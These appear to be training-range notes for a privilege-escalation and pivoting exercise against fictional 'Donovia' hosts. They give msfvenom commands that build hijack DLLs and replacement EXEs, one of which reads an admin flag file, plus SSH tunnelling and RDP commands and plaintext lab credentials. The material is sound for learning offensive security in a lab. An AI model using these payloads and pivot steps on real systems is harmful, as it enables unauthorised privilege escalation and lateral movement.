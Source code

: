 ## Showcase
### Fake Payload write permissions (dll emplacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f dll > SSPICLI.dll
____________________________________________________________________________________________________________________
## Showcase
### Fake Payload rename permissions (exe replacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f exe > putty.exe
____________________________________________________________________________________________________________________
## For the DEMO!!!
### To kill the putty.exe we downloaded and launched.
    (get-process | ?{$_.name -like "putty"}).kill()
____________________________________________________________________________________________________________________
    msfvenom -p windows/exec CMD='cmd.exe /C "type C:\users\Admin\Desktop\flag.txt" > C:\Users\comrade.WIN2-INTERNAL-D\Desktop\lookwhatifound.txt' -f dll > hijackmeplz.dll
# Scheme of Maneuver:
## >Jump Box
## ->Pivot: 192.168.28.105
## -->T1: 192.168.28.5

    ssh -MS /tmp/jump student@10.50.25.229
    ssh -S /tmp/jump jump -O forward -L20005:192.168.28.105:2222
    ssh -S /tmp/t1 t1 -O forward -L20006:192.168.28.5:3389
    xfreerdp /v:127.0.0.1:20006 /u:comrade /p:StudentPrivPassword /size:1920x1000 +clipboard

## Pivot
### Hostname: ftp.site.donovia
### IP: 192.168.28.105
### OS: Ubuntu 18.04
### Creds: comrade :: StudentReconPassword
### Last Known SSH Port: 2222
### Malware: none
### Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

### T1
### Hostname: donovian-windows-private
### IP: 192.168.28.5
### OS: Windows ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: 3389
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

